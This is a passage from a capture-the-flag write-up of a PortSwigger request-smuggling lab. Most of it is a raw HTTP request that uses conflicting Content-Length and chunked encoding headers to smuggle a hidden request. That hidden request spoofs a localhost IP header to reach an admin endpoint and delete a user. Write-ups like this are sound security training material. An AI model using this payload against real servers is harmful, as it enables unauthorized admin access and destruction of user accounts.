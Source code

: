 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-8/images/Pasted%20image%2020230201171702.png)

As you can see, we can access to the admin panel!

Let's delete user `carlos`!

```http
POST / HTTP/1.1
Host: 0ad8009603349161c0da0e7f00a2009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Transfer-Encoding: chunked

0

GET /admin/delete HTTP/1.1
X-SnzJQv-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

username=carlos&bypasspls=
```
